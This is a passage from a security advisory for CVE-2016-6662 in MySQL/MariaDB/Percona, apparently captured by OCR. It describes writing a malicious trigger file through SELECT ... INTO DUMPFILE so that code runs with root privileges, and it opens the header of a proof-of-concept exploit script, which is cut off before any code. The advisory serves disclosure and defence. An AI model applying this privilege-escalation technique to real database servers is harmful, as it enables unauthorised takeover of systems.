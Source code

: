 ~~~~~~~~~~~~~~~~~~~~~~~~~
SELECT '...trigger_definition...' INTO DUMPFILE /var/lib/mysql/activedb/active_table.TRG' 

Note that _only_ the above SELECT statement is required to write out the trigger
definition by abusing the power of FILE privilege. 
The CREATE TRIGGER statement is _never_ executed and is not necessary. This
means that SUPER privilege is not necessary either. See the exploit code for 
details.

Such trigger will be loaded when tables get flushed. From this point on
whenever an INSERT statement is invoked on the table, e.g:

INSERT INTO `active_table` VALUES('xyz');

The trigger's code will be executed with mysql root/admin privileges (notice
'DEFINER' above) and will thus let attacker to modify the general_log settings 
despite the lack of administrative/SUPER privileges through their user account
(with SELECT/FILE privileges only).


------------------
VI. PROOF OF CONCEPT - 0day 0ldSQL_MySQL_RCE_exploit.py exploit


----------[ 0ldSQL_MySQL_RCE_exploit.py ]--------------

#!/usr/bin/python

#
# MySQL / MariaDB / Percona -  Remote Root Code Execution / PrivEsc PoC Exploit
# (CVE-2016-6662) 
# 0ldSQL_MySQL_RCE_exploit.py (ver. 1.0)
#
# For testing purposes only. Do no harm.
#
# Discovered/Coded by:
#
# Dawid Golunski
# 
#
#
# This is a limited version of the PoC exploit. It only allows appending to
# existing mysql config files with weak permissions. See V) 1) section of 
# the advisory for details on this vector. 
#
# Full PoC will be released at a later date, and will show how attackers could
# exploit the vulnerability on default installations of MySQL on systems with no
# writable my.cnf config files available.
#
# The upcoming advisory CVE-2016-6663 will also make the exploitation trivial
# for certain low-privileged attackers that do not have FILE privilege.
# 
# See full advisory for details:
# 
#
# Video PoC:
# 
#
#
# Follow: 
# &
# Stay tuned ;)
#

~~~~~~~~~~~~~~~~~~~~~~~~~